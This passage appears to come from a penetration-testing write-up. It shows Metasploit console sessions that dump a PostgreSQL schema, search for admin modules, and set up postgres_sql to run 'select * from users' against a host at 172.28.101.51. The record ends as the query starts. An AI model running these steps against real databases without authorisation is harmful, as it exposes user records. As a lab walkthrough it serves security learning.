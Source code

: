     - ColumnName: deleted_at
      ColumnType: timestamp
      ColumnLength: '8'
  - TableName: users_pkey
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/postgres/postgres_schemadump) > 
```


In order to connect to the database I will use the admin/postgres/postgres_sql module.

```
msf6 auxiliary(scanner/postgres/postgres_schemadump) > search postgres admin

Matching Modules
================

   #  Name                                           Disclosure Date  Rank    Check  Description
   -  ----                                           ---------------  ----    -----  -----------
   0  auxiliary/admin/http/manageengine_pmp_privesc  2014-11-08       normal  Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   1  auxiliary/admin/postgres/postgres_readfile                      normal  No     PostgreSQL Server Generic Query
   2  auxiliary/admin/postgres/postgres_sql                           normal  No     PostgreSQL Server Generic Query
   3  auxiliary/admin/http/rails_devise_pass_reset   2013-01-28       normal  No     Ruby on Rails Devise Authentication Password Reset
   4  post/linux/gather/vcenter_secrets_dump         2022-04-15       normal  No     VMware vCenter Secrets Dump


Interact with a module by name or index. For example info 4, use 4 or use post/linux/gather/vcenter_secrets_dump                                                  

msf6 auxiliary(scanner/postgres/postgres_schemadump) > use 2
msf6 auxiliary(admin/postgres/postgres_sql) > 

```


```
msf6 auxiliary(admin/postgres/postgres_sql) > set database postgres
database => postgres
msf6 auxiliary(admin/postgres/postgres_sql) > set sql select * from users
sql => select * from users
msf6 auxiliary(admin/postgres/postgres_sql) > exploit 
[*] Running module against 172.28.101.51
